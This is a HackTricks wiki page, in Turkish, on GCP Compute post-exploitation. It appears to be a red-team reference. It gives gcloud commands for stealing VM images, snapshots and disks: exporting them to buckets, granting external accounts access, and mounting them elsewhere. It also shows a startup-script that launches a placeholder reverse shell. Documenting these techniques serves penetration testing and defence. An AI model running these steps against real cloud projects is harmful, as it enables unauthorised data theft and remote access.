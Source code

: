 # GCP - Compute Post Exploitation

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin.**
* **HackTricks'e PR göndererek hacking ipuçlarını paylaşın** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına.

</details>
{% endhint %}

## Compute

Compute ve VPC (Networking) hakkında daha fazla bilgi için:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Görüntüleri Dışa Aktarma ve Yerel Olarak İnceleme

Bu, bir saldırganın **zaten mevcut olan görüntülerdeki verilere erişmesini** veya **çalışan VM'lerin yeni görüntülerini oluşturmasını** ve çalışan VM'ye erişimi olmadan verilerine erişmesini sağlar.

Bir VM görüntüsünü bir kovaya dışa aktarmak ve ardından indirip yerel olarak bağlamak mümkündür:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Bu işlemi gerçekleştirmeden önce saldırganın depolama bucket'ı üzerinde ayrıcalıklara ve kesinlikle **cloudbuild üzerinde ayrıcalıklara** ihtiyacı olabilir çünkü bu işlem için **hizmet** talep edilecektir.\
Ayrıca, bunun çalışması için codebuild SA ve compute SA'nın ayrıcalıklı izinlere sahip olması gerekmektedir.\
Cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` şunlara ihtiyaç duyar:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Ve SA `<project-id>-compute@developer.gserviceaccount.com` şunlara ihtiyaç duyar:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Anlık Görüntüleri ve Diskleri Yerel Olarak Dışa Aktarma ve İnceleme

Anlık görüntüleri ve diskleri doğrudan dışa aktarmak mümkün değildir, ancak bir **anlık görüntüyü diske, diski bir imaja dönüştürmek** ve **önceki bölümü** takip ederek bu imajı yerel olarak incelemek üzere dışa aktarmak mümkündür.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Bir VM Oluşturarak Bir İmajı İnceleme

Bir saldırganın **bir imaj oluşturduğu** bir **çalışan VM** veya **bir imajda depolanan verilere** erişim sağlama amacıyla, imaj üzerinde harici bir hesaba erişim izni vermek mümkündür:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
ve ardından bundan yeni bir VM oluşturun:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Eğer dış hesabınıza imaj üzerinden erişim veremiyorsanız, kurbanın projesinde o imajı kullanarak bir VM başlatabilir ve imajı erişmek için metadata'yı ters kabuk çalıştıracak şekilde ayarlayabilirsiniz. Parametreyi ekleyin:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Bir Anlık Görüntüyü/Disk'i Bir VM'ye Bağlayarak İnceleme

**Bir disk veya anlık görüntüde depolanan verilere erişmek amacıyla, anlık görüntüyü bir diske, diski bir imaja dönüştürebilir ve önceki adımları takip edebilirsiniz.**

Ya da **harici bir hesaba disk üzerinde erişim izni verebilirsiniz** (başlangıç noktası bir anlık görüntü ise, anlık görüntüye erişim izni verin veya bundan bir disk oluşturun):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Diski bağla** bir instance'a:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Diski VM içine bağlayın:

1.  **VM'ye SSH ile bağlanın**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Diski Tanımlayın**: VM içine girdikten sonra, disk cihazlarını listeleyerek yeni diski tanımlayın. Genellikle, `/dev/sdb`, `/dev/sdc` gibi bulabilirsiniz.
3. **Diski Biçimlendirin ve Bağlayın** (eğer yeni veya ham bir disk ise):
*   Bir bağlama noktası oluşturun:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Diski bağlayın:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Eğer **snapshot veya diske dış bir projeye erişim veremiyorsanız**, bu işlemleri **snapshot/disk ile aynı projedeki bir instance içinde gerçekleştirmeniz gerekebilir**.

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **HackTricks'e PR göndererek hacking ipuçlarını paylaşın** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına.

</details>
{% endhint %}
